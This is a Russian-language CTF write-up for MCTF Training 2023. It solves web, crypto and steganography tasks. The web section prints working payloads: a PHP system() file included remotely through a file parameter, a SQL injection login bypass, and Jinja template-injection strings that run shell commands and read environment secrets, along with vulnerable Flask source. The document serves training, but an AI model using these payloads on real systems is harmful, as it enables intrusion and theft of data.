


# MCTF Training 2023

---

## Task 1: CTF-WIKI (web)

Открытваем сайт и попадаем на вики по CTF:



При этом, когда мы нажимаем на разделы, основная страница подтягиваем дополнительное содержимое:

```sh
http://ctf-wiki.mctf.ru/?file=1
```


Пробуем подставить `/etc/passwd`:


На своем сайте делаем файл с php-нагрузкой:

```php
<?php echo system("UNIX COMMAND HERE");
```

Сначала подставляем в качестве команды `ls` и узнаем содержимое директории, после чего читаем файл с флагом:


```sh
http://ctf-wiki.mctf.ru/?file=https://<your_domain>/rce.txt
```


**Flag is: mctf{rfi_i5_vERY_C00l}**

---

## Task 2: Secure DB (web)

Переходим по ссылки:


Переходим по указанному пути:


Пробуем базовые пейлоады и останавлдиваемся на следующем (пароль любой):

```sql
' or 1=1 --
```


**Flag is: MCTF{SQL_4RE_V3RY_D4NG3R}**

---

## Task 3: Private Shop (web)

Заходим на веб-ресурс и просматриваем перечень товаров:


И тут находим в названии товаров пейлоады SSTI:


Регистрируемся на ресурсе:


Создаем в качестве теста свой продукт с полезной нагрузкой в названии:


Создаем новый продукт и помезаем в него следующий пейлоад:

```sh
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```


Находим файл `products.py` и читаем его через:

```sh
{{config.__class__.__init__.__globals__['os'].popen('cat products.py').read()}}
```

```python
import os from pathlib 
import Path from flask
import Blueprint, request, render_template, render_template_string, abort, flash, session from flask_login 
import current_user, login_required from flask_pymongo 
import ObjectId from time import gmtime, strftime 
import hashlib from app 
import mongo 

products = Blueprint('products', __name__, template_folder='templates') 

db = mongo.db salt = b"H1NIm" 

def generate_token(str1, str2): 
	return hashlib.sha256(bytes(str1, 'utf-8') + salt + bytes(str2, 'utf-8')).hexdigest()

@products.route('/', methods=['GET']) 
def product_list():
	if not db.products.find_one({"name": "flag"}): 
		db.products.insert({"name": "flag", "public" : False, "body" : os.environ.get('FLAG',"-"), "user" : "netu", "time" : "2020-02-14 17:06:10"}) 
		products_data = db.products.find({'public': {"$eq": True}}) 

		return render_template('products.html', products=products_data) 


@products.route('/my_products', methods=['GET']) 
def personal_products(): 
	products_data = db.products.find({'user': current_user.id}) return render_template('products.html', products=products_data) 


@products.route('/product/create', methods=['GET', 'POST']) 
@login_required 
def create_products(): 
	if request.method == 'POST': 
		form = request.form 
		if form.get('public', '') == 'yes': 
			public = True 
		else: 
			public = False 

		db.products.insert_one({ 'name': form.get('name', ''), 'public': public, 'body': form.get('body', ''), 'img_url': form.get('url',''), 'user': current_user.id, 'cost': form.get('cost', '100'), 'time': strftime("%Y-%m-%d %H:%M:%S", gmtime()) }) 

		flash('Product added!') 
		return render_template('create_product.html') 


@products.route('/product/<id>', methods=['GET']) 
def note_view(id): 
	product = db.products.find_one({"_id" : ObjectId(id)}) 
	template = open(str(Path(__file__).parent.absolute()) + '/templates/product.html').read() \ .replace('{INSERT_HERE}', product.get('name', '')) 

	return render_template_string(template, product=product)
```

При исследовании данного файла находим следующую строку:

```sh
os.environ.get('FLAG',"-")
```

Собственно, флаг хранится в переменной окружения, которую мы спокойно можем достать:

```sh
{{config.__class__.__init__.__globals__['os'].environ.get('FLAG',"-")}}
```


**Flag is: MCTF{t00_e4sy_w3b_f0r_y0u}**

---

## Task 4: 32 (crypto)

Дана строка: NVRXIZT3N5WWOLROFZRGC43FGMZH2===

В названии намек на base32. Декодим:


**Flag is: mctf{omg...base32}**

---

## Task 5: LSB (stegano)

Дана картинка:


Просматрирваем через Aperi'Solve:


**Flag is: MCtf{Flag}**

---

## Task 6: on my puter (stegano)

Дана картинка:


Просматрирваем через Aperi'Solve и находим флаг через Exiftool:



**Flag is: mctf{c0mp7t3r}**

---

## Task 7: stegland (stegano)

Дана картинка:


Просматрирваем через Aperi'Solve и находим, что binwalk нашел файл внутри картинки:


Вот и внутренний файл (да, может на нем ничего не видно, но в этом и суть, флаг очень слабо просматривается, нужно вглядываться, но флаг все равно нереально прочитать):


Посмотрим через фильтры, которые предоставляется Aperi'Solve:


**Flag is: MCTF{II_WaSNt_wOrried_Ab0ut_yoU}**

---
